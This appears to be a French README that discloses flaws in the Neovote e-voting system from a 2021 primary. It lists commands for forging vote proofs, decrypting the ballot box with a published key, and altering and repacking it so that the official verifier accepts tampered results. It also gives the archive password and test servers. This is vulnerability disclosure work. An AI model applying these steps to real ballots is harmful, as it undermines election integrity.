 Un peu d'analyse du système [neovote](https://neovote.com) utilisé pour la primaire écologique de 2021.

1 - Outils
==========

Générer une fausse preuve de vote:

```shell
$ python generate_invalid_proof.py
5Ehjzb4WmzpEmKhhvXBEcTV3sSAyR_62i5P1wqwCfcLnQKZW62UomrzyVuz5jeBv-oXSDpaW0kz-RjCAzpzV_aEFiLkISVBamu88Ic7KravGCJNI6DHupQgPlmnYNEl2hZab-I2m80oQV_nnUKoY7tlbIKj-fYXDCfgIwyvVfS7UmawjagkSYjO-ypF8Gazfv1RbVod0YxLlelLY0z65W1Fgvgxvgx4oFsHSQJzTPKqCw0fAgXfSRSoCWFwhlV4Qh0BtNRbOIQviDc2nOsRjSTiOoApai6IHupE_VyfGD5UYyMGW0ViZNQhL4NspQzmhXSF7enOyv1A5NR5IdpRVCPJ84sZ6_CsEQIlhRVqmbLImYIi2582Afj4RpdgwkW0N50RVBlwK3652Iom7poqhVpqdjIbx9doPX_X2dczNx_DFhiboNs7ULqXx74p7A_sRWpL3kI_Z6UzWQfgyhf1WNhL6_Gb7QWDS8cDjccXLCdjEcu7OmmPOmXnwmr3KApCHNlS87HlIIcsLHXd9-1QR_w@@
```

Déchiffrer une preuve de vote pour en extraire les hashes:

```shell
$ MY_PROOF=$(python generate_invalid_proof.py)
$ python decrypt_proof.py $MY_PROOF
Your proof contains the following hashes:
EIKBGEq_QpF3nAjHOZJvXdV6KTscq3qjAUDObdvSnm0CEDnNsu8JLHFFWW_1aM8VxEySINTJOzYkUfvN_zFi2A@@
8XqbwjZZwZjK5cOoh0jsGutQgzhZhiDA4Flu4ib6QSyTRAgkClM3wZE2bXwo5rRwJSVuaKBpLC-DRC81Jjb5_g@@
Dq1sNpv8rkqwWDZp7n1CMMtcRdZDpQEfyFxBojHNCIECbckGA5j8YnMWvIgzAe7oMUYOu9hsyInCM7wbA8gLkQ@@
e1aBpILgnEJbMM96G6ZVig87T2nRJ6fwtPPTsUPVt0fcLla9BUHe7IlkUP8cdQcfIZM1FWmR4CFPzsa-Nc2bXw@@
hpPE7r89WZNf9ThdQtHIANB2ywEN8rAWqjarNyb6L5wiLylsgsXR8X8_Hepbw6zKjk3pPu1w95Pt5lxR0V48Pw@@
```

Télécharger les archives de l'urne et les clés de chiffrement:

```shell
curl -X POST https://primaire.neovote.com/65fae701f14479f676bf4d43cbcb2d5f9d98163afa79518b8416b7536e97ba03 --data 'authKey=biè2Rrwû_çb7TWQà' --output BallotBoxExport.zip
curl -X POST https://primaire.neovote.com/474eccbbc08d2d76b8743bcb84ef15490ee1cdee75ff45fe6153a108ec12342e --data 'authKey=biè2Rrwû_çb7TWQà' --output BallotKeysExport.zip
```

Décompresser les archives de l'urne et les clés de chiffrement:

```shell
7z x -obox ./BallotBoxExport.zip -pbiè2Rrwû_çb7TWQà
php -r 'exec("7za x -y -okeys  ../BallotKeysExport.zip -p" . utf8_decode("biè2Rrwû_çb7TWQà"), $rows, $ret);'  # Hold my beer
```

L'utilisation de caractères accentués dans l'achive pose de gros problèmes de portabilité.
En effet le format zip ne spécifie pas l'encodage à utiliser dans les mot de passes, de fait
celui-ci est arbitraire en fonction du logiciel, de sa version, de l'OS ou encore de la façon de l'exécuter...

Une fois décompressée, l'urne à proprement parlé peut être déchiffrée:

```shell
python unpack_ballot_data.py box/1M-9493O-5D-2B-1C-2T-8S/ballot_data.csv --key-file=keys/1M-9493O-5D-2B-1C-2T-8S.pem --output=ballot_data.json
```

À ce moment l'urne peut être altérée:

```shell
python alter_box.py ./ballot_data.json --action=add --output=altered_ballot_data.json
```

Puis reconstruite en son format chiffré:

```shell
cp -R box altered_box
python repack_ballot_data.py ./altered_ballot_data.json --key-file=keys/1M-9493O-5D-2B-1C-2T-8S.pem --output=altered_box/1M-9493O-5D-2B-1C-2T-8S/ballot_data.csv
```

Enfin l'archive d'urne peut être reconstruite (le mot de passe doit faire obligatoirement
16 caractères pour être accepté par le script de [www.verifier-mon-vote.fr](https://www.verifier-mon-vote.fr/)).

```shell
cd alter_box && 7za a ./BallotBoxExport.zip -pAAAAAAAAAAAAAAAA
# Vu que je n'ai pas réussi à réutiliser le mdp d'origine, l'archive de clé doit aussi être reconstruite...
cd keys && 7za a ./BallotKeysExport.zip -pAAAAAAAAAAAAAAAA
```

2 - Archives modifiées
======================

Le répertoire `altered` contient des archives ayant été altérées :

- `swap`: l'archive a été modifiée pour inverser l'identifiant des candidats
- `add`: l'urne a été bourrée avec des votes additionels (toutes les preuves de votes sont toujours valides, par contre le nombre de votant ne correspond plus à la liste d'émargement)
- `replace`: certains votes on été modifiés (toutes les preuves de votes sont toujours valides ET le nombre de votes correspond à la liste d'émargement !)

Dans les trois cas (swap, add et replace), la vérification de l'urne indique une victoired du mauvais candidat au second tour, cf. copies d'écrans:

- [swap](altered/swap/result.png)
- [add](altered/add/result.png)
- [replace](altered/replace/result.png)
- [original (archive non modifiée)](altered/original/result.png)

Ces archives peuvent être testées depuis le site officiel de vérification [www.verifier-mon-vote.fr](https://www.verifier-mon-vote.fr/):

| type                            | Adresse du serveur de vote                 | Mot de passe       |
|---------------------------------|--------------------------------------------|--------------------|
| swap                            | primaire-altered-by-swap.touilleman.xyz    | `altered_by_swap_` |
| add                             | primaire-altered-by-add.touilleman.xyz     | `_altered_by_add_` |
| replace                         | primaire-altered-by-replace.touilleman.xyz | `alteredBYreplace` |
| original (archive non modifiée) | primaire.neovote.com                       | `biè2Rrwû_çb7TWQà` |

Utilisez votre propre preuve de vote, où à défault celle-là:

```raw
v46Vy31AZeeR6jIvGrqV240VTNr7fYdedwW-QmBKk2dWX6PM-pyDmJdulynelEEzwVj7s0ydMEB5OJQJAd9XkG30xDiDkFb9r33sMZ6SxeP7QzZTF0268xfuhMgt761DzBZTXc4PxtuezxO0W4SRuHsEmdUuwQ-2kCTqU-6tyx0T8r8HcfiN9Tz84hbJ-mf9m_sXhNTqEbxnUD_kt9_NMpJA2UY88Pj4GRkbiW1xdudGRy9kr8ln7nh1er1cSyusP50BHqGivSKZCFR7GJWgmSsJgG6n-WwChJjl5dZzhzAw4yVYVvIS6Y9rH2ME_evgbNGoTTsV7PtMiV12F_syMKQxFbTxe1MGX14FrdSRBDW7mTLQTXR7u0ViGtrR9ZmSfcfZ3Be7UKHMHifY5MYEMZSmu3OQWVowJNu2goNtsXWmdwIhqDz-UzyEyBU9UczLKjeK2CdB8RCUB5R8NZwSakRR1E9OQtoCQhXsHcQBPptQbvEe6HSNNtuTGxZlj8YQozKz0liZdaL-sflCD7LUUg@@
```

Cette preuve du 2nd tour contient les hashes de trois votes ayant été remplacé (dans l'attaque "replace") et deux autres
votes ayant été pris aléatoirement dans l'urne. Malgrés le remplacement, le site de vérification considère la preuve
toujours valide ;-)

Les hashes sont:
```raw
2VfUCQIXiLn12GqUSlzrx7YvF2gFVpighvhFD2By5x-i1VxtuCNkJU56aRY3sYGuwEgdBePBtqgC5wsuI1Nc-g@@
xZmJ4iIfuvVCIv4kYO2st2uKRK_XqVdIqctBkxAzyynhmW1toxv7t7YLEJ4Klx6wcivauh4DNIFk8dhkTbr4MA@@
MOHztrni9eD3ppKTsluKe__IrHA2rQAfv7M9Tze338qmKr0QvSfOyIpciLBuql7uWZXHN9CPhoYMvUZe0uHObA@@
2j9rw1IiGklTBnVrcUOkBqSLO7_WMZuD39_jAoGHtZ5p0k-3cVOedI8F00H0QTd1aefyRcn35HiCKe7GxzNK-w@@
xtPtV2ZcsQuZ45zk4IanzB0uSFLdRy4DJW5gHRb3-ZsTcSSH8MRa9X5JvwgIr55SrAgh1T-GaswzSCZcAUXpEA@@
```

Le site de vérification a tendance à crasher à cause de la charge de travail nécessaire à la vérification (la 100aine
de milliers de RSA dans l'urne à déchiffrer n'aide pas...).

De fait le site met beaucoup de temps à répondre et peut finir en indiquant qu'une erreur à eu lieu, dans ce cas il
faut redémarrer l'opération (le site garde un cache interne du travail déjà réalisé donc l'opération finie par aboutir)
